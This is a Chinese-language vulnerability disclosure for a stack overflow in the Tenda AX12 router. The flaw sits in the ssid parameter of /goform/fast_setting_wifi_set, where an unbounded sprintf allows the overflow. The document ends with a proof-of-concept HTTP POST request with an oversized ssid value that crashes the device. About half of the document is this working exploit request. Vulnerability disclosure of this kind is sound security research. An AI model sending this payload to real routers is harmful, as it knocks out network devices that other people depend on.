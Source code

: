 ## 漏洞描述 ##

设备：Tenda-AX12 V22.03.01.21_CN([https://www.tenda.com.cn/download/detail-3237.html](https://www.tenda.com.cn/download/detail-3237.html))

漏洞类型：栈溢出

攻击效果：拒绝服务

## 漏洞成因 ##

同样也是在/goform/fast_setting_wifi_set的ssid参数，其经过的sprintf函数，未对长度进行限制，这将导致堆栈溢出，而达到Dos拒绝服务的攻击效果。

![](./image/1.png)

## POC ##

拒绝服务的poc：

```http
POST /goform/fast_setting_wifi_set HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 10
Origin: http://192.168.0.1
Connection: close
Cookie: password=xxxxxxxxxx
Referer: http://192.168.0.1/main.html

ssid=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa+1000*a
```
